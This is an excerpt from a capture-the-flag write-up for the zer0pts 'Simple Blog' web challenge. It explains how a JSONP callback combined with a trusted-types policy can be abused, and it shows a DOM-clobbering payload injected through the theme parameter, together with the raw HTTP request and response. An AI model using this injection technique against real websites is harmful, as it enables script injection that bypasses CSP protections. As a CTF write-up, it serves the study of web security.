 ```javascript
          }
        });
      } catch {
        if (!trustedTypes.defaultPolicy) {
          throw new Error('failed to register default policy');
        }
      }

      // TODO: implement custom callback
      jsonp('/api.php', window.callback);
    };

    init();
```

The process works as follow:
1. a [`trusted-types`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/trusted-types) policy is created;
2. the `jsonp` method is invoked;
3. the `jsonp` method calls [`api.php`](simple_blog/web/www/api.php) passing the content of `window.callback`, if specified;
4. [`api.php`](simple_blog/web/www/api.php) returns a JavaScript snippet that will be included in the webpage and it will be executed, because it is considered "safe" for all defined policies;
5. the default method that will be executed is the `render` one, that will print blog posts into the page.

As a consequence, if it is possible to define `window.callback` you can execute an arbitrary JavaScript payload.

This can be achieved with a technique called [*DOM clobbering*](https://portswigger.net/web-security/dom-based/dom-clobbering). With this technique, the `window.callback` can be the reference to an HTML object with `id="callback"`, so a payload like the following can be used.

```
GET /?theme=dark.min.css%22%3E%3Cdiv+id=%22callback%22%3Efoo%3C/div%3E%3C HTTP/1.1
Host: web.ctf.zer0pts.com:8003
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

HTTP/1.1 200 OK
Date: Sat, 06 Mar 2021 01:33:35 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.4.13
Vary: Accept-Encoding
Content-Length: 3077
Connection: close
Content-Type: text/html; charset=UTF-8

<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>Simple Blog</title>
    <meta http-equiv="Content-Security-Policy" content="default-src 'self'; object-src 'none'; base-uri 'none'; script-src 'nonce-uA0mbXM3XN0qqrr9Ln1E26ka/tE=' 'strict-dynamic'; require-trusted-types-for 'script'; trusted-types default">
    <link rel="stylesheet" href="/css/bootstrap-dark.min.css"><div id="callback">foo</div><.min.css">
    <link rel="stylesheet" href="/css/style.css">
```